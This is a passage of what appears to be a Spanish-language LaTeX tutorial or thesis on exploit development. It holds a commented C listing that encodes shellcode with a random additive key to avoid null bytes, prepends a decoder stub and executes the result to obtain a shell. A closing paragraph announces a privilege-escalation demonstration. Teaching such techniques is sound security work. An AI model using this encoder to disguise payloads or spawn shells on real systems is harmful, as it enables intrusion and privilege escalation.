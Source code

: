 \documentclass [titlepage, 12pt]{article}
\begin{document}
\begin{lstlisting}
	//En la posicion de la cadena hexadecimal del decodificador donde 
	//deberia ir la longitud del shellcode, se inserta la longitud
	//calculada con la funcion strlen().	
	decoder[6] += lshellcode;
	//En la posicion de la cadena hexadecimal del decodificador donde 
	//deberia ir el numero aleatorio, se inserta la dicho numero
	//calculado con la funcion getnumber().	
	decoder[11] += number;
	
	ldecoder = strlen(decoder);
	
	//Este bucle se realiza para sumar el numero aleatorio a cada caracter
	//hexadecimal que identifica el shellcode. Al entrar, nullbyte = 0.
	do {
		if (nullbyte == 1) {
			//Si se ha generado un byte nulo en el shellcode,
			//se genera un nuevo numero aleatorio, se modifica
			//dicho valor en el decodificador y se vuelve a
			//realizar el proceso de codificacion.
			number = getnumber(10);
			decoder[11] += number;
			nullbyte = 0;
		}
		//Se recorre todo el shellcode y a cada byte de la cadena
		//shellcode, se le suma el numero aleatorio.
		for (count = 0; count < lshellcode; count++) {
			shellcode[count] += number;
			//Si despues de realizar dicha suma, hay algun byte
			//que es cero, se debe volver a realizar todo el
			//proceso
			if (shellcode[count] == '\0') {
				nullbyte = 1;
			}
		}
	//El proceso de codificacion se llevara a cabo hasta que no haya
	//ningun byte nulo en el shellcode.
	} while (nullbyte == 1);

	//Se reserva espacio para el decodificador y el shellcode.
	result = malloc(lshellcode + ldecoder);
	//En dicho espacio de memoria se almacena el decodificador
	//y el shellcode.
	strcpy(result, decoder);
	strcat(result, shellcode);
	//Se muestra por pantalla el numero aleatorio generado y
	//la cadena que identifica al decodificador y el shellcode
	//codificado.
	printf("Using value: %x to encode shellcode\n", number);
	print_code(result, 1);
	//Por ultimo, se ejecuta el decodificador y el shellcode.
	execute(result);
	//En este momento se deberia obtener una bonita shell!
} 
\end{lstlisting}

El C\'odigo \ref{fig:EjecucionCDecoder} muestra como compilar y ejecutar el C\'odigo \ref{fig:CDecoder}. Debido a que se ha ejecutado un simple $execve$ $shellcode$ no tiene sentido ejecutar comandos como $pwd$ para mostrar las diferencias entre los directorios antes y despu\'es de ejecutar el $shellcode$. Sin embargo, se aumentar\'an los privilegios del $shellcode$ polim\'orfico para demostrar como antes de ejecutar el $shellcode$ se tienen unos privilegios menores que cuando el $shellcode$ lanza la $shell$ desde la cual se podr\'a ejecutar cualquier comando.\\
\end{document}
